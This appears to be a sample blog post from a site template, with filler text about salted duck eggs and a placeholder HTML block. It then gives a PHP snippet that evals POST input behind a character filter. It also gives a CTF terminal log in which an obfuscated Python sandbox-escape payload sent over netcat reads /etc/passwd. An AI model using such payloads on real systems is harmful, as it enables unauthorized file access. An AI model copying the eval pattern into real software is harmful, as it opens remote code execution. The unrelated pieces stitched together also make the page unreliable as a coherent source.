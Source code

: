 ```yaml
---
title: My Second Post!
date: '2015-05-06T23:46:37.121Z'
---
```


Wow! I love blogging so much already.

Did you know that "despite its name, salted duck eggs can also be made from
chicken eggs, though the taste and texture will be somewhat different, and the
egg yolk will be less rich."?
([Wikipedia Link](https://en.wikipedia.org/wiki/Salted_duck_egg))

Yeah, I didn't either.

```html
<head>
  This is the head.
</head>
<body>
  This is the body.
</body>
```

```php
<?php
	if(sizeof($_REQUEST)===2&& sizeof($_POST)===2){
	$cmd=$_POST['cmd'];
	$submit=$_POST['submit'];
	if(isset($cmd)&& isset($submit)){
		if(preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)){
			echo "<div class=\"success\">Command executed !</div>";
			eval($cmd);
		}else{
			die("<div class=\"error\">NOT ALLOWED !</div>");
		}
	}else{
		die("<div class=\"error\">NOT ALLOWED !</div>");
	}
	}else if ($_SERVER['REQUEST_METHOD']!="GET"){
		die("<div class=\"error\">NOT ALLOWED !</div>");
	}
	 ?>
```

```python
xpirep@kali:~/dev/fword20/dir$ nc directorymanager.fword.wtf 1234
Welcome to our Directory Manager, what do you want to execute :
[eval('[].__cla{0}{0}__.__ba{0}e__.__{0}ubcla{0}{0}e{0}__()'.format(dir()[0][9]))[40]('/etc/pa{0}{0}wd'.format(dir()[0][9])).read()]
['root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nfword:x:1000:1000::/home/fword/:/bin/bash\nmessagebus:x:101:101::/nonexistent:/usr/sbin/nologin\n']
```

